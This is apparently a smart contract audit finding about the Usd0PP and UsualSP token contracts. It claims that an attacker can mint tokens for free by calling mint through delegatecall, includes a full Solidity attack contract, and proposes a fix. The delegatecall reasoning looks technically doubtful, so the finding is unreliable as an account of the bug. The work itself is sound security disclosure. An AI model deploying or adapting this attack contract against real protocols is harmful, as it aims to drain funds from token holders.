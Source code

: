 Narrow Watermelon Cheetah

High

# Attackers can take Usd0PP token for free.

### Summary

The improper usage of the `safeTransferFrom` function may result in the loss of Usd0PP tokens, as an attacker can invoke the `mint` function from a contract using `delegatecall`.


### Root Cause

In [`Usd0PP.sol:224`](https://github.com/sherlock-audit/2024-10-usual-labs-v1/blob/4fb4a64a479e0b9b8f93934220e891c29d54df33/pegasus/packages/solidity/src/token/Usd0PP.sol#L224), the use of `address(this)` is inappropriate. 
This can lead to the loss of Usd0PP tokens when the caller of the transaction is a contract address and the mint function is executed as a `delegatecall`.


### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. The attacker writes and deploys the following contract.
```Solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract AttackUsd0PP {
    // Address of the Usd0PP contract
    address public usd0pp;
    // Address of the usd0 token
    IERC20 public usd0Token;

    // The mint function selector
    bytes4 constant _mint = bytes4(keccak256("mint(uint256)"));

    // Constructor - load the usd0pp contract and usd0 token address
    constructor(address _usd0pp, address _usd0Token) {
        usd0pp = _usd0pp;
        usd0Token = IERC20(_usd0Token);
    }

    // Function to deposit usd0 tokens into this contract
    function depositUsd0(uint256 amount) external {
        // Transfer usd0 tokens from the user to this contract
        usd0Token.transferFrom(msg.sender, address(this), amount);
    }

    // Mint usd0pp for free
    function mintForFree(uint256 amount) external {
        // Ensure the contract has enough usd0 tokens
        require(usd0Token.balanceOf(address(this)) >= amount, "Insufficient usd0 balance");
        
        // Call the mint function in Usd0PP contract
        (bool success, ) = usd0pp.delegatecall(abi.encodeWithSelector(_mint, amount));
        require(success, "Minting failed");
    }
}
```
2. The attacker deposits a certain amount of Usd0 tokens and invokes the `mintForFree` function multiple times. 
3. As a result, the attacker receives an equivalent number of Usd0PP tokens in exchange for the deposited Usd0 tokens. Furthermore, the deposited Usd0 tokens do not actually transfer to the Usd0PP contract; they remain within the attacker's contract. 

----

By exploiting this mechanism, the attacker can acquire Usd0PP tokens without any cost.


### Impact

The attacker can acquire Usd0PP tokens without any cost.
In case of [`UsalSP.sol:270`](https://github.com/sherlock-audit/2024-10-usual-labs-v1/blob/4fb4a64a479e0b9b8f93934220e891c29d54df33/pegasus/packages/solidity/src/token/UsualSP.sol#L270), there is a similar risk present.

### PoC

_No response_

### Mitigation

We can update [`Usd0PP.sol:224`](https://github.com/sherlock-audit/2024-10-usual-labs-v1/blob/4fb4a64a479e0b9b8f93934220e891c29d54df33/pegasus/packages/solidity/src/token/Usd0PP.sol#L224) as following:

```solidity
        $.usd0.safeTransferFrom(msg.sender, address($.usd0PP), amountUsd0);
```

Also we need to update [`UsualSP.sol:270`](https://github.com/sherlock-audit/2024-10-usual-labs-v1/blob/4fb4a64a479e0b9b8f93934220e891c29d54df33/pegasus/packages/solidity/src/token/UsualSP.sol#L270) as following:
```solidity
        $.usualS.safeTransferFrom(msg.sender, address($.usualSP), amount);
```

By replacing `address(this)` with `address($.usd0PP)`, address($.usualSP)`, we can mitigate the risk of such attacks.